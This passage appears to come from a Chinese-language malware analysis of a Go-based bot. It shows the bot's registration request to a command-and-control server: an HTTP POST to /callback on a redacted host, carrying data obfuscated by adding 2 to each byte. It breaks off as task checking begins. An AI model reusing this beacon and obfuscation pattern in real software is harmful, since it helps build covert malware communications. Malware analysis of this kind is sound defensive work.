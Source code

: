 ![](img/4f105405c1bf639d03259bab51bf0ff7.png)

Bot registration

对于 HTTP 流量，可以在下面看到一个示例，发送到服务器的数据通过向每个字节添加 2 来进行混淆:

```
POST /callback HTTP/1.1
Host: redacted.x.x.x
User-Agent: Go-http-client/1.1
Content-Length: 57
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzipcallback=HktgYcnn%22Cffgf%22%2F%22lwuejgf&reginfo=WugtMKV
```

注册后，机器人将检查要执行的任务:
